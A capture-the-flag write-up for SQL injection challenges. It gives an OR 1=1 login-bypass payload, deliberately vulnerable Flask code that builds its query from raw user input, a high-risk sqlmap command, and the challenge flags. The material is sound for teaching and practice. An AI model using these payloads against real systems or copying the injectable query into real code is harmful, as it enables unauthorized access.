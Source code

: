 # Log me in

Tag: `SQL Injection`

## Challenge 1

[http://h4ck3r.quest:8200/](http://h4ck3r.quest:8200/)

## Writeup 1

Trivial SQL Injection

```sql
SELECT * FROM admin WHERE (username='') OR 1=1 --') AND (password='JykgT1IgMT0xIC0t')
```

## Flag 1

`FLAG{b4by_sql_inj3cti0n}`

## Challenge 2

[http://h4ck3r.quest:8201/](http://h4ck3r.quest:8201/)

Hint: union syntax

## Writeup 2

Source:

```python
from flask import Flask, render_template, redirect, request, g, Response
import sqlite3

app = Flask(__name__)


def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect('/tmp/database.db')
        db.row_factory = sqlite3.Row
    return db


@app.before_first_request
def init_db():
    cursor = get_db().cursor()
    cursor.execute("""
    CREATE TABLE IF NOT EXISTS "admin" (
        "username"  TEXT NOT NULL,
        "password"  TEXT NOT NULL
    )
    """)
    cursor.execute("SELECT COUNT(*) as count FROM admin WHERE username='admin'")
    count = cursor.fetchone()['count']
    if count == 0:
        import secrets
        cursor.execute("INSERT INTO admin (username, password) VALUES (?,?)",
                       ('admin', secrets.token_urlsafe()))
    get_db().commit()


@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()


@app.route("/")
def home():
    return render_template("index.html",
                           failed=request.args.get('failed') != None)


@app.route("/login", methods=['POST'])
def login():
    username = request.form.get('username')
    password = request.form.get('password')

    if not username or not password:
        return redirect("/?failed")

    cur = get_db().execute(f"SELECT * FROM admin WHERE (username='{username}')")
    res = cur.fetchone()
    cur.close()

    if res['username'] == 'admin' and res['password'] == password:
        return "FLAG: FLAG{<REDACTED>}"

    return redirect("/?failed")



@app.route("/source")
def source():
    import re
    source_code = open(__file__).read()
    source_code = re.sub(r'FLAG{[^}\s]+}', 'FLAG{<REDACTED>}', source_code, 1)
    return Response(source_code, mimetype='text/plain')


if __name__ == '__main__':
    app.run(debug=True)
```

TBA

## Bonus: Practice sqlmap

```bash
sqlmap
--force-ssl
-r inj.req
--threads 4
--risk 3
--level 5
--dbms=mysql
```

## Flag 2

`FLAG{un10n_bas3d_sqli}`
